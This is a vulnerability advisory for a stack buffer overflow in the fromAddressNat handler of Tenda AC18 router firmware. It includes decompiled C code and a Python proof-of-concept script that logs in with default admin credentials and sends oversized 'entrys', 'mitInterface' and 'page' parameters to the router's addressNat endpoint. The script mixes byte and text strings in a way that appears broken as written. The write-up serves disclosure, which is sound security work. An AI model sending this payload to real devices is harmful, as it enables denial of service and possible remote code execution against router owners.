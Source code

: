 ## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)




### * Vulnerability Detail

In function fromAddressNat, the content obtained by the program from the parameter "entrys", "mitInterface" and  "page" are passed to local_14, local_18 and local_1c, 
and then the local_14 and  local_18 are directly copied into the acStack796 stack through the sprintf function. The local_1c os copied into the acStack284 stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void fromAddressNat(undefined4 param_1)

{
  int iVar1;
  char acStack1052 [256];
  char acStack796 [512];
  char acStack284 [256];
  undefined4 local_1c;
  undefined4 local_18;
  undefined4 local_14;
  
  memset(acStack1052,0,0x100);
  local_14 = FUN_0002ba8c(param_1,"entrys",&DAT_000e5b90);
  local_18 = FUN_0002ba8c(param_1,"mitInterface",&DAT_000e5b90);
  sprintf(acStack796,"%s;%s",local_14,local_18);
  FUN_0004eaf0("adv.addrnat",acStack796,0x7e);
  local_1c = FUN_0002ba8c(param_1,"page",&DAT_000e5d94);
  sprintf(acStack284,"advance/addressNatList.asp?page=%s",local_1c);
  iVar1 = CommitCfm();
  if (iVar1 != 0) {
    sprintf(acStack1052,"advance_type=%d",7);
    send_msg_to_netctrl(5,acStack1052);
  }
  FUN_0002be4c(param_1,acStack284);
  return;
}
```

### * POC
```python
import requests


cmd  = b'entrys=' + b'A' * 400 + '&mitInterface='
cmd += b'A'* 0x400 + '&page=' + 'A' * 200


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/addressNat/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
